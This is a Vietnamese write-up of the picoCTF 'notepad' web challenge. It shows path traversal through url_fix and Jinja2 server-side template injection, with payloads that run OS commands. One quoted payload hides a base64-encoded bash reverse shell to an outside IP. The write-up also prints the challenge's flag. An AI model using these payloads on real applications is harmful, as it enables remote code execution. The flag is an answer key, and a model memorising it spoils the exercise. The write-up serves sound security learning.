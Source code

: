 # Overview #
- Points : 100
- Tags : `Web Exploitation`
# Description #
This note-taking site seems a bit off.  https://notepad.mars.picoctf.net/
src: https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar
# Observe #
![image](https://github.com/Aowpu/CTF/assets/130723782/3a2a539d-fb32-400d-bae1-0a81b6b60bc5)
- Mã trên tạo một ứng dụng Flask cho phép bạn nhập nội dung và tạo ra các trang web tĩnh.
Nó kiểm tra nội dung đã nhập và sau đó tạo một tệp HTML tương ứng để hiển thị nội dung. 

![image](https://github.com/Aowpu/CTF/assets/130723782/65f6f399-7e9d-4921-9916-f6a246f869b7)
- Tệp index.html cho thấy thấy rằng nó sẽ hiện ra lỗi nếu có nên tôi đã thử cho error là 1 thứ gì đó bất kì
![image](https://github.com/Aowpu/CTF/assets/130723782/ab45f4b9-aee2-460f-aa8e-1e05ef4cced5)
![image](https://github.com/Aowpu/CTF/assets/130723782/5fea4dff-f48f-4915-821a-a6d5551bc0d7)
- Trong đoạn code trên có thể thấy nó đã tạo tệp name, tên của tệp là 128 kí tự đầu tiên của nội dụng và mã thông báo ngẫu nhiên
- Có một điều rằng chúng ta có thể dựa trên url_fix(content[:128]) cho thấy khi tìm kiếm thì url_fix sẽ biến \ thành / mà ở trong
điều kiện không hề cấm điều này. Chúng ta có thể sử dụng điều này để duyệt qua hệ thống tập tin.
# Attack #
- Mình đã nghĩ đến lỗ hổng SSTI vì kiểm tra dữ liệu đầu vào ở đây không nghiêm ngặt
- Chúng ta có thể tạo mẫu lỗi của riêng mình bằng cách sử dụng kỹ thuật truyền tải đường dẫn để tạo một tệp trong thư templates/errors
  ![image](https://github.com/Aowpu/CTF/assets/130723782/079c3739-77c7-404a-93f5-052175a0da00)
- Sau khi gửi nó đã hiện ra not found bởi vì chúng ta đã ghi vào một tệp bên ngoài thư mục tĩnh nên không thể truy cập bằng /static/...
- Tuy nhiên, chúng ta có thể kiểm tra payload bằng cách chuyển tên tệp vào phần error
  ![image](https://github.com/Aowpu/CTF/assets/130723782/2754cf1e-4b42-4938-9797-780ad7e1056c)
- Payload đã được in lại
- Chúng ta có thể sử dụng SSTI(Sever-side template injection) để truy xuất cờ.
- Tôi đã tìm thấy bài viết trong hacktricks về cách khai thác lỗ hổng SSTI này ở bài Jinja2 SSTI và câu lệnh dùng để injection vào hệ thống
- "{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}"
- Sau khi đọc dòng lệnh trên tôi đã thay đổi 1 số chỗ để phù hợp với bài này, đoạn mã hóa base 64 ở câu lệnh trên tôi sẽ đổi nó bởi vì theo Dockerfile được cung cấp cho thấy tệp chứa cờ nằm trong thư mục gốc của UUID ngẫu nhiên.
Vì vậy chùng ta cần tìm tên file của lá cờ
- Chúng ta sẽ sửa đoạn base 64 thành "ls /app" sau đó mã hóa b64 bởi vì thứ chúng ta muốn echo bây giờ là file của lá cờ trong thư mục app
- Đoạn mã sẽ injection vào là
  " {% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n bHMgL2FwcA== | base64 -d | bash")["read"]() %} {{a}} {% endwith %} "
-  Vì tên tệp nó sẽ lấy 128 kí tự đầu do dùng câu lệnh url_fix(content[:128]) nên chúng ta sẽ chèn sao cho đủ 128 kí tự ở đầu cho đầy để không phần nào của injection được lưu vào tên của file
-  Sau khi gửi câu lệnh
-  ![image](https://github.com/Aowpu/CTF/assets/130723782/0fdd859f-12cc-41d9-b981-6eeaecfadcf7)
- Nó đã trả về tên tệp trên thanh tìm kiếm
- Thực hiện các bước chèn tên tệp vào sau error chúng ta đã tìm file chứa flag
     ![image](https://github.com/Aowpu/CTF/assets/130723782/af0cb711-02ec-47e7-a3ea-5cf0041a28b7)
- Sau đó chúng ta cat file đó ra bằng cách lại thay đoạn mã hóa base 64 trong câu lệnh injection trên bằng câu lệnh "cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt"
  và rồi thực hiện lại các bước trên để hiện ra flag
![image](https://github.com/Aowpu/CTF/assets/130723782/a7f7176d-a611-40da-ba31-2d1dcb7fbf91)
# Flag: picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n} #
